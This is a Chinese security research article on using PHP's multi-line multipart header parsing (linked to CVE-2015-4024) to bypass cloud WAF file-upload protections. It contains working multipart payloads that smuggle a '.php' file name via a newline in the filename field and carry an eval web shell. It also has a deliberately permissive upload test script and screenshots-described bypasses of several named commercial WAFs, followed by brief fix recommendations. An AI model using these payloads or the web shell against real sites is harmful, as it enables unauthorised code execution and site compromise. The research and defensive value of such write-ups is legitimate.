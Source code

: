 # PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed

0x00 背景介绍
=========

* * *

今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，中文版：[http://drops.wooyun.org/papers/6077](http://drops.wooyun.org/papers/6077)，英文版 ：[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

0x01 绕过WAF的原理
=============

* * *

根据PHP DOS漏洞原理，在`multipart_buffer_headers`函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

```
prev_len= strlen(prev_entry.value);
     cur_len= strlen(line);
 
     entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存
     memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝
     memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝
     entry.value[cur_len+ prev_len] = '\0';
 
     entry.key= estrdup(prev_entry.key);
 
     zend_llist_remove_tail(header);//1次内存释放

```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP`multipart_buffer_headers`函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是“`test3.jpg\nf/shell.php`”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

文件上传功能测试脚：

```
<?php
         $name = $_FILES['file']['name'];
        echo $name;
        echo "\n";
        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);
        echo "upload success! ".$_FILES['file']['name'];
        echo "\n";
        echo strlen($_FILES['file']['name']);
?>

```

Payload能够正常上传

![p1](http://drops.javaweb.org/uploads/images/401780431bb9907c1c4bc970b8bbcde16487d916.jpg)

0x02 绕过WAF实战
============

* * *

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

### 2.1 绕过360网站卫士

步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![p2](http://drops.javaweb.org/uploads/images/4a7a37194ab919214ba3b3dedeaee37fce4edd1b.jpg)

步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![p3](http://drops.javaweb.org/uploads/images/d19b5ec78ddaa2fa4cb2f07169a897cdb5d07e7d.jpg)

### 2.2 绕过知道创宇加速乐

步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![p4](http://drops.javaweb.org/uploads/images/8c767622e3276ff0693998b4e5da701aedd74e8f.jpg)

步骤二：

成功绕过加速乐，上传shell，文件是syt.php。

![p5](http://drops.javaweb.org/uploads/images/77dba35b112fcca026f2c83535e1ebdea3a08d13.jpg)

### 2.3 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![p6](http://drops.javaweb.org/uploads/images/4c5770fabf43ac6d2506ea9687f30cd9b67daa66.jpg)

步骤二：成功绕过云加速

![p7](http://drops.javaweb.org/uploads/images/9915b91da8dcee04e551a56d37b0e31214a49972.jpg)

### 2.4 安全狗的测试

用该方法测试安全狗的文件上传，

```
Content-Disposition: form-data; name="file"; filename="2.php
aa:
Content-Type: image/jpeg

```

php与aa这间的是`%0a`，处理请求的Apache进程直接崩溃。感觉可以溢出，没有深入。

### 2.5 CloudFlare的测试

为了测试能否绕过国外版的CloudFlare，特意买了它的服务。结果，在规则全开的情况下，竞然不拦截文件上传。

![p8](http://drops.javaweb.org/uploads/images/7e99e49c7af2381b3615e8aa2fa49ef7e16560bd.jpg)

![p9](http://drops.javaweb.org/uploads/images/9846ee8a2245e83a59f976f194949b4c806a424b.jpg)

### 2.6 Amazon WAF

亚马逊的WAF没有规则，所有规则需要用户配置。在配置的选项里，没有文件上传的选项，所以也就没有绕过的说法。国内WAF和国外WAF的区别挺大，为什么这么设计还是值得深思。

![p10](http://drops.javaweb.org/uploads/images/fc38831f05f0db91e7c128868a36c7fa226bd851.jpg)

我们还绕过了其他WAF，这里不一一列举。

0x03 扩展—更多的工作
=============

* * *

### 3.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

### 3.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

0x04 修复方案
=========

* * *

### 4.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

### 4.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号或双引号闭合。

0x05 总结
=======

* * *

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。